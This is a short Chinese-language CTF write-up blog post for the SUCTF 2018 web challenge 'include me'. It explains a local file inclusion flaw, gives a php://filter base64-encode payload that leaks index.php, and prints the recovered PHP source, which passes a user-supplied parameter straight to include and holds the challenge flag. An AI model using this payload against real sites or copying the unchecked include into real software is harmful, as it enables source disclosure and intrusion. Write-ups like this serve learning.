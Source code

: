 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SUCTF-Writeup           # 标题
subtitle:   我好菜啊                 #副标题
date:       2018-11-11              # 时间
author:     RTL                     # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - CTF
  - Web
---
```


# SUCTF-Writeup

## Web

### include me

- 查看易知为文件包含漏洞

![1](https://github.com/Chris-Ju/Picture/blob/master/SUCTF-include-1.png?raw=true)

- 但 php 如果包含文件本身会发生 502 错误
- 所以，考虑使用 php 伪协议来将源文件转码
- payload: php://filter/read=convert.base64-encode/resource=index.php
- 得到源码

```php
<?php
if(isset($_GET["lang"])) {  
  $lang=$_GET["lang"];  
} else{  
  $lang="cn.php";  
}  
?>
<form>  
<select style="width:60px;" name="lang">  
<option value="cn.php"<?php echo $lang=="cn.php"?"selected":"";?>>Chinese</option>  
<option value="en.php"<?php echo $lang=="en.php"?"selected":"";?>>English</option>
<option value="kr.php"<?php echo $lang=="kr.php"?"selected":"";?>>
Korean</option>
<option value="jp.php"<?php echo $lang=="jp.php"?"selected":"";?>>Japanese</option>
<option value="de.php"<?php echo $lang=="de.php"?"selected":"";?>>German</option>
<option value="fr.php"<?php echo $lang=="fr.php"?"selected":"";?>>French</option>
<input type="submit" value="change language">  
</form>
<?php
$flag="SUCTF{ha_ha_ha_you_win}";
  include $lang;
?>
```
